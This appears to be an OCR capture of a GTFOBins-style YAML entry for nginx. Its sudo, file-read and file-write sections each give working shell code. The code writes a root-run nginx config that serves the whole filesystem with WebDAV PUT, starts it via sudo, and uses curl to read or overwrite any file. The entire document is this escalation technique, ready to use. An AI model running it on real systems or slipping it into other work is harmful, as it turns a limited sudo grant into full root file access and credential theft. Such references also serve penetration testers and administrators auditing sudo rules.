 ```yaml
---
functions:
  sudo:
    - description: This will start a nginx webserver on the specified port. This will provide read/write access to all files on the system. The file path must be absolute.
      code: |
        PORT=1337
        LFILE=file_to_read
        TFC=$(mktemp)
        cat > $TFC << EOF
        user root;
        events {
          worker_connections 1024;
        }
        http {
          server {
            listen $PORT;
            root /;
            autoindex on;
            dav_methods PUT;
          }
        }
        EOF
        sudo nginx -c $TFC
        curl -s http://localhost:$PORT$LFILE
  file-read:
    - description: This will start a nginx webserver on the specified port. This will provide read/write access to all files on the system. The file path must be absolute.
      code: |
        PORT=1337
        LFILE=file_to_read
        TFC=$(mktemp)
        cat > $TFC << EOF
        user root;
        events {
          worker_connections 1024;
        }
        http {
          server {
            listen $PORT;
            root /;
            autoindex on;
            dav_methods PUT;
          }
        }
        EOF
        sudo nginx -c $TFC
        curl -s http://localhost:$PORT$LFILE
  file-write:
    - description: This will start a nginx webserver on the specified port. This will provide read/write access to all files on the system. The file path must be absolute.
      code: |
        PORT=1337
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        TFC=$(mktemp)
        cat > $TFC << EOF
        user root;
        events {
          worker_connections 1024;
        }
        http {
          server {
            listen $PORT;
            root /;
            autoindex on;
            dav_methods PUT;
          }
        }
        EOF
        sudo nginx -c $TFC
        curl -X PUT http://localhost:$PORT$LFILE -d @$TF
---
```


